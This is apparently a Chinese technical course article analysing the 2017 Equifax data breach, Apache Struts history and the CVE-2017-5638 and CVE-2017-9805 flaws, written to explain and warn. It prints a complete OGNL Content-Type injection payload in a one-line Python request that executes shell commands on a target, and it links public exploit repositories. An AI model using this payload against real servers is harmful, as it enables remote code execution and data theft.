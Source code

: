 # 03 \| Equifax信息泄露始末

相信你一定有所耳闻，9月份美国知名征信公司Equifax出现了大规模数据泄露事件，致使1.43亿美国用户及大量的英国和加拿大用户受到影响。今天，我就来跟你聊聊Equifax信息泄露始末，并对造成本次事件的原因进行简单的分析。

# Equifax信息泄露始末

Equifax日前确认，黑客利用了其系统中未修复的Apache Struts漏洞（CVE-2017-5638，2017年3月6日曝光）来发起攻击，导致了最近这次影响恶劣的大规模数据泄露事件。

作为美国三大信用报告公司中历史最悠久的一家，Equifax的主营业务是为客户提供美国、加拿大和其他多个国家的公民信用信息。保险公司就是其服务的主要客户之一，涉及生命、汽车、火灾、医疗保险等多个方面。

此外，Equifax还提供入职背景调查、保险理赔调查，以及针对企业的信用调查等服务。由于Equifax掌握了多个国家公民的信用档案，包括公民的学前、学校经历、婚姻、工作、健康、政治参与等大量隐私信息，所以这次的信息泄露，影响面积很大，而且性质特别恶劣。

受这次信息泄露影响的美国消费者有1.43亿左右，另估计约有4400万的英国客户和大量加拿大客户受到影响。事件导致Equifax市值瞬间蒸发掉逾30亿美元。

根据《华尔街日报》（The Wall Street Journal）的观察，自Equifax在9月8日披露黑客进入该公司部分系统以来，全美联邦法院接到的诉讼已经超过百起。针对此次事件，Equifax首席执行官理查德·史密斯（Richard Smith）表示，公司正在对整体安全操作进行全面彻底的审查。

事件发生之初，Equifax在声明中指出，黑客是利用了某个“U.S. website application”中的漏洞获取文件。后经调查，黑客是利用了Apache Struts的CVE-2017-5638漏洞。

<!-- [[[read_end]]] -->

戏剧性的是，该漏洞于今年3月份就已被披露，其危险系数定为最高分10分，Apache随后发布的Struts 2.3.32和2.5.10.1版本特针对此漏洞进行了修复。而Equifax在漏洞公布后的两个月内都没有升级Struts版本，导致5月份黑客利用这个漏洞进行攻击，泄露其敏感数据。

事实上，除了Apache的漏洞，黑客还使用了一些其他手段绕过WAF（Web应用程序防火墙）。有些管理面板居然位于Shodan搜索引擎上。更让人大跌眼镜的是，据研究人员分析，Equifax所谓的“管理面板”都没有采取任何安保措施。安全专家布莱恩·克雷布斯（Brian Krebs）在其博客中爆料，Equifax的一个管理面板使用的用户名和密码都是“admin”。

由于管理面板能被随意访问，获取数据库密码就轻而易举了——虽然管理面板会加密数据库密码之类的东西，但是密钥却和管理面板保存在了一起。虽然是如此重要的征信机构，但Equifax的安全意识之弱可见一斑。

据悉，Equifax某阿根廷员工门户也泄露了14000条记录，包括员工凭证和消费者投诉。本次事件发生后，好事者列举了Equifax系统中的一系列漏洞，包括一年以前向公司报告的未修补的跨站脚本（XSS）漏洞，更将Equifax推向了风口浪尖。

# Apache Struts漏洞相关

Apache Struts是世界上最流行的Java Web服务器框架之一，它最初是Jakarta项目中的一个子项目，并在2004年3月成为Apache基金会的顶级项目。

Struts通过采用Java Servlet/JSP技术，实现了基于Java EE Web应用的MVC设计模式的应用框架，也是当时第一个采用MVC模式的Web项目开发框架。随着技术的发展和认知的提升，Struts的设计者意识到Struts的一些缺陷，于是有了重新设计的想法。

2006年，另外一个MVC框架WebWork的设计者与Struts团队一起开发了新一代的Struts框架，它整合了WebWork与Struts的优点，同时命名为“Struts 2”，原来的Struts框架改名为Struts 1。

因为两个框架都有强大的用户基础，所以Struts 2一发布就迅速流行开来。在2013年4月，Apache Struts项目团队发布正式通知，宣告Struts 1.x开发框架结束其使命，并表示接下来官方将不会继续提供支持。自此Apache Struts 1框架正式退出历史舞台。

同期，Struts社区表示他们将专注于推动Struts 2框架的发展。从这几年的版本发布情况来看，Struts 2的迭代速度确实不慢，仅仅在2017年就发布了9个版本，平均一个月一个。

但从安全角度来看，Struts 2可谓是漏洞百出，因为框架的功能基本已经健全，所以这些年Struts 2的更新和迭代基本也是围绕漏洞和Bug进行修复。仅从官方披露的安全公告中就可以看到，这些年就有53个漏洞预警，包括大家熟知的远程代码执行高危漏洞。

根据网络上一份未被确认的数据显示，中国的Struts应用分布在全球范围内排名第一，第二是美国，然后是日本，而中国没有打补丁的Struts的数量几乎是其他国家的总和。特别是在浙江、北京、广东、山东、四川等地，涉及教育、金融、互联网、通信等行业。

所以在今年7月，国家信息安全漏洞共享平台还发布过关于做好Apache Struts 2高危漏洞管理和应急工作的安全公告，大致意思是希望企业能够加强学习，提高安全认识，同时完善相关流程，协同自律。

而这次Equifax中招的漏洞编号是CVE-2017-5638，官方披露的信息见下图。简单来说，这是一个RCE的远程代码执行漏洞，最初是被安恒信息的Nike Zheng发现的，并于3月7日上报。

![](<https://static001.geekbang.org/resource/image/00/cc/009ecfbac5741ea7ffd7fa3079a8c8cc.png>)

从介绍中可以看出，此次漏洞的原因是Apache Struts 2的Jakarta Multipart parser插件存在远程代码执行漏洞，攻击者可以在使用该插件上传文件时，修改HTTP请求头中的Content-Type值来触发漏洞，最后远程执行代码。

说白了，就是在Content-Type注入OGNL语言，进而执行命令。代码如下（一行Python命令就可以执行服务器上的shell命令）：

```
import requests
requests.get("https://target", headers={"Connection": "close", "Accept": "*/*", "User-Agent": "Mozilla/5.0", "Content-Type": "%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"})
```

在GitHub上有相关的代码，链接为：[https://github.com/mazen160/struts-pwn](<https://github.com/mazen160/struts-pwn>) 或 [https://github.com/xsscx/cve-2017-5638](<https://github.com/xsscx/cve-2017-5638>)

注入点是在JakartaMultiPartRequest.java的buildErrorMessage函数中，这个函数里的localizedTextUtil.findText会执行OGNL表达式，从而导致命令执行（注：可以参看Struts 两个版本的补丁“2.5.10.1版补丁”“2.3.32版补丁”），使客户受到影响。

因为默认情况下Jakarta是启用的，所以该漏洞的影响范围甚广。当时官方给出的解决方案是尽快升级到不受影响的版本，看来Equifax的同学并没有注意到，或者也没有认识到它的严重性。

另外，在9月5日和7日，Struts官方又接连发布了几个严重级别的安全漏洞公告，分别是CVE-2017-9804、CVE-2017-9805、CVE-2017-9793和CVE-2017-12611。

这里面最容易被利用的当属CVE-2017-9805，它是由国外安全研究组织lgtm.com的安全研究人员发现的又一个远程代码执行漏洞。漏洞原因是Struts 2 REST插件使用带有XStream程序的XStream Handler 进行未经任何代码过滤的反序列化操作，所以在反序列化XML payloads时就可能导致远程代码执行。

![](<https://static001.geekbang.org/resource/image/f8/02/f8a10b42faf789018e0a5dfadbbd0c02.png>)

不过在Apache软件基金会的项目管理委员会的回应文章中，官方也对事故原因进行了分析和讨论。首先，依然不能确定泄露的源头是Struts的漏洞导致的。其次，如果确实是源于Struts的漏洞，那么原因“或是Equifax服务器未打补丁，使得一些更早期公布的漏洞被攻击者利用，或者是攻击者利用了一个目前尚未被发现的漏洞”。

根据推测，该声明提出黑客所使用的软件漏洞可能就是CVE-2017-9805漏洞，该漏洞虽然是在9月4日才由官方正式公布，但早在7月时就有人公布在网络上了，并且这个漏洞的存在已有9年。

相信通过今天的分享，你一定对Equifax的数据泄露始末及造成原因有了清楚的了解。欢迎您把你的收获和想法，分享给我。下篇文章中，我们将回顾一下互联网时代的其他大规模数据泄露事件，并结合这些事件给出应对方案和技术手段。

